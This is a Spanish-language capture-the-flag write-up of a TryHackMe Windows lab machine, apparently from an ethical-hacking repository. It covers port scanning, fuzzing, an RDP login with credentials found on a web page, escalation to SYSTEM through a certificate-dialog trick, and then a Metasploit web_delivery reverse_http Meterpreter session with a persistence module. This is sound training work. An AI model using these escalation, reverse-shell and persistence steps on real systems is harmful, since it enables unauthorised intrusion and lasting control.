 Lo primero que haremos será hacer un nmap y enumerar los puertos abiertos


![Write_up_maquinas/maquina3-bluster/img/img01.png](https://github.com/alvarobueno21/Hacking_Etico/blob/ddb1d83cc03a05b359f343c74555f284a59ef527/Write_up_maquinas/maquina3-bluster/img/img01.png)


Una vez hecho esto haremos fuzzing y encontramos una ruta /retro


![Write_up_maquinas/maquina3-bluster/img/img02.png](https://github.com/alvarobueno21/Hacking_Etico/blob/ddb1d83cc03a05b359f343c74555f284a59ef527/Write_up_maquinas/maquina3-bluster/img/img02.png)


Nos vamos a la pagina y encontramos que el nombre de Wade se refiere a un personaje de avatar que se llama parzival

![Write_up_maquinas/maquina3-bluster/img/img03.png](https://github.com/alvarobueno21/Hacking_Etico/blob/ddb1d83cc03a05b359f343c74555f284a59ef527/Write_up_maquinas/maquina3-bluster/img/img03.png)

Ahora nos conectaremos por rdp, si no lo tenemos instalado lo instalamos con el siguiente comando:

sudo apt update && sudo apt install freerdp2-x11

Y luego para conectarnos por rdp a la maquina lo haremos con este otro comando:

xfreerdp /u:wade /p:parzival /v:192.168.1.211

Y si miramos el documento de texto del escritorio tenemos esta flag: THM{HACK_PLAYER_ONE}

Si nos fijamos bien en el escritorio, hay un ejecutable, le damos a abrir con administrador y hacemos click en Show details y luego nos saldra una pestaña para ver información sobre el certificado, hacemos click en ella y nos vamos a su pagina web.

![Write_up_maquinas/maquina3-bluster/img/img04.png](https://github.com/alvarobueno21/Hacking_Etico/blob/ddb1d83cc03a05b359f343c74555f284a59ef527/Write_up_maquinas/maquina3-bluster/img/img04.png)

Luego tendremos que irnos al navegador, configuración y guardar archivo y nos vamos a la ruta C:\Windows\System32 y luego en la parte de arriba pondremos C:\Windows\System32\cmd.exe, abrimos la cmd y ejecutamos whoaami y somos nt authority\system.

Si entramos en la terminal y hacemos un dir vemos un root.txt donde esta la flag.


Ahora nos iremos a hacer un sudo msfconsole y con el comando search exploit/multi/script/web_delivery nos pondremos a ejecutar el exploit.

Ahora tendremos que poner el siguiente comando: set payload windows/meterpreter/reverse_http y luego ejecutar run -j

Una vez hagamos esto tendremos que copiarnos la salida del comando y ejecutarlo en la shell de windows, luego nos vamos a sessions en metasploit y vemos que tenemos una activa que es un meterpreter.

Por ultimo hacemos un sysinfo y luego un run persistence -X
